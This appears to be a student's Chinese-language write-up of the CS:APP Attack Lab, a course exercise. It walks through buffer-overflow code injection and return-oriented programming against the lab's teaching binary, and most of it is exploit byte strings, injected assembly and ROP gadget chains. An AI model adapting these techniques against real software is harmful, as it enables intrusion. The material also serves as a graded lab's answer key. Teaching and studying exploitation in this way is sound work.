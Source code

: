 ## preface
- 这个lab有5个实验, 分为两大部分: 1. code injecton attacks(3个实验); 2. return-orientied programming (两个实验), 下面分别称之为phase1到5
### 几个函数


1. touch1: 没参数, call了这个即可
2. touch2: 需要把cookie作为参数传入
3. touch3: 把cookie的字符串形式存在一个地方(也就是说打印出来显示为cookie的字符串), 把这个字符串的首地址传入
4. test: 整个实验的主程序. test里面要call getbuf
5. getbuf: 这个程序里面有个Gets
6. Gets: 这个函数先把刚进入时的rsp(这个值记为A)往下减少40bytes, 然后从rsp开始不断写入用户输入的数据(并非碰到ASCII码为0的字符就结束了, 而是一直读, 直到文件末尾)
7. hexmatch: 把传入touch3的地址的字符串和cookie的正确的字符串形式比较. 只有一个参数, 即字符串地址. 里面实际上是用strncmp来比较9个字符.

### 第二部分里面farm的所有可用的mov/pop类型gadget
```cpp
movq rax,rdi
pop rax
pop rsp;    movl rax,rdx;
movq rsp,rax
movl rcx,rsi
movl rdx,rcx
movl rsp,rax
```

## 解答

### phase1
- **requirements**: 要求自己注入代码, 在getbuf执行完成之后调用touch1即可.
- rsp往下减少了40 bytes, 那么就写40个无用值, 然后把touch1的地址写到A处, ret后即可call touch1
```cpp
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
c0 17 40 00 //addr of touch1
```
### phase2
- **requirements**: 要求调用touch2, 并且把cookie作为参数传进去.
- 其实一开始的时候我不知道怎么做, 因为我觉得stack上的东西是不能执行的. 但是后来发现如果不能执行那这个code injection没法继续了. 所以才知道这个是要自己写代码然后放到栈上执行.
- 我用的是`jmp`到`touch2`. 自己写个汇编然后转成16进制. 但是一开始的时候失效了(一开始我直接写`jmp *addr`). 后来在网上查资料才知道`jmp`加一个地址转成16进制并不是原模原样转换, 而是转换成了跳转到**相对地址**, 而这个**相对地址**是和每个程序特定相关的, 所以我不能把自己的写得汇编直接粘贴到这里来用.
- 为了解决相对地址的问题, 我把地址存到寄存器rax然后往rax跳, 这样就不会变成相对地址了. (虽然正规答案是用ret)

```
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	48 c7 c0 ec 17 40 00 	mov    $0x4017ec,%rax
   e:	ff e0                	jmpq   *%rax
```
在Gets的ret时反对到我写的代码的开头, 就可以实现执行了 


```cpp
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 
48 c7 c7 fa 97 b9 59 //这是我的代码, 位于0x5561dc90
48 c7 c0 ec 17 40 00
ff e0
90 dc 61 55 00//我的代码的地址
```

### phase3
- 这个要求调用`touch3`并且把字符串地址输入.
- 我第一次是把cookie存储到A-40起始之处, 但是发现A-40开始的8bit被fs保护数据修改了. 后来调用touch3里面的`hexmatch`的时候, A-8的8个byte存了touch3返回地址, 后面三个8byte被push了3个寄存器. 然后才调用`hexmatch`. 也就是说A-40到A这40个bit在比较字符串之前已经全部被修改过了. 
- 第二次尝试时, 我把cookie放到了rbx, 它被push到了A的上面
但是在strncmp里面, 比较的个数是9, 也就意味着我保存的字符串不能长度为8, 否则不可能比较一致. rbx只能放8个byte, 失败
- 所以到最后, 成功的方法是, 在hexmatch里面保存到stack的3个寄存器里面, 选择2个连在一起的, 即rbp和r12(rbx无法控制, 因为touch3和hexmatch会修改rbx).然后让这两个寄存器连在一起构成一个字符串, 以求strncmp能相等

![](images/stack_hexmatch.jpeg)
<center>执行hexmatch前一部分后的stack示意图</center>

我写的代码
```cpp
      0:          48 c7 c7 88 dc 61 55    movq    $1432476808, %rdi
       7:         48 bd 35 39 62 39 39 37 66 61   movabsq $7018357788218898741, %rbp
      11:         49 c7 c4 00 00 00 00    movq    $0, %r12
      18:         68 fa 18 40 00  pushq   $4200698
      1d:         c3      retq
```
 一共30个字节, rsp - 40为起始点之处. 其地址为(看下面的hex代码来观察位置)
       0x5561dca0 - 0x28 = 0x5561dc78
```cpp
48 c7 c7 88 dc 61 55
48 bd 35 39 62 39 39 37 66 61
49 c7 c4 00 00 00 00
68 fa 18 40 00
c3
11 22 33 44 55 66 77 88 99 aa /* fill gap 10 bytes */

78 dc 61 55 00 /* return address of the inserted exploited code */
```

### phase4
- 这个要重新实现phase2的内容, 但是这里已经进行了栈不可执行, 所以不能执行自己的代码了. 
-   用40个byte把东西都挤掉, 然后用找到的几个gadget实现传入参数(把东西从stack上pop出来然后移到rdi).
- 要写到stack的东西分别是0x4019ab,0x59b997fa,0x4019a2,0x4017ec(touch2的返回地址) 

11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
11 22 33 44 55 66 77 88 99 aa 
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00


### phase5
- 这个题实际上不查答案很难做出. 

- 根据说明我以为只需要用给出的pop mov 和ret就行了.一直以为不能用加法, 所以想了半天想不出

- 于是上网查. 看了两种答案, 一种是用一个add操作来实现最后访问数据

- 还有一种, 是用`4019d6:	48 8d 04 37          	lea    
(%rdi,%rsi,1),%rax`这条指令来完成的加法

这个phase的问题的解题思路如下
- 这个phase使用了stack randomlization, 所以你是无法事先知道存储的string的绝对地址的.
- 既然无法得到绝对地址, 那么必须让程序自己给一个参照的地址, 即%rsp
利用movq %rsp, %xxx这条指令, 可以知道栈随机化后的一个相对地址
- 但是仅仅知道%rsp是没用的, 因为后面必然有ret. 一旦ret, 程序就会返回到当前rsp位置的地址. 那么这个rsp无法成为一个字符串的地址
- 所以必须使用加法, 先得到rsp, 这个rsp的数据不用来存储字符串
- 字符串存放到rsp上面特定距离的位置, 然后用此时的rsp加上事先计算好的特定距离, 就得到了string地址

```cpp 
   11 22 33 44 55 66 77 88 99 aa 
   11 22 33 44 55 66 77 88 99 aa 
   11 22 33 44 55 66 77 88 99 aa 
   11 22 33 44 55 66 77 88 99 aa 
   06 1a 40 00 00 00 00 00 /* addr of 1th */
   a2 19 40 00 00 00 00 00 /* addr of 2nd */
   ab 19 40 00 00 00 00 00 /* addr of 3rd */
   48 00 00
   00 00 00 00 00 /* offset */ 
   dd 19 40 00 00 00 00 00 /* addr of 4th */ 
   69 1a 40 00 00 00 00 00 /* addr of 5th */ 
   13 1a 40 00 00 00 00 00 /* addr of 6th */ 
   d6 19 40 00 00 00 00 00 /* addr of 7th */ 
   c5 19 40 00 00 00 00 00 /* addr of 8th */ 
   fa 18 40 00 00 00 00 00 /* addr of touch3 */ 
   35 39 62 39 39 37 66 61 00 /* string of cookie */
```
各个gaget如下
```
1. mov rsp, rax
2. mov rax, rdi
3. pop rax
4. mov rax, rdx
5. mov rdx, rcx
6. mov rcx, rsi
7. lea (rdi, rsi, 1), rax
8. mov rax, rdi
```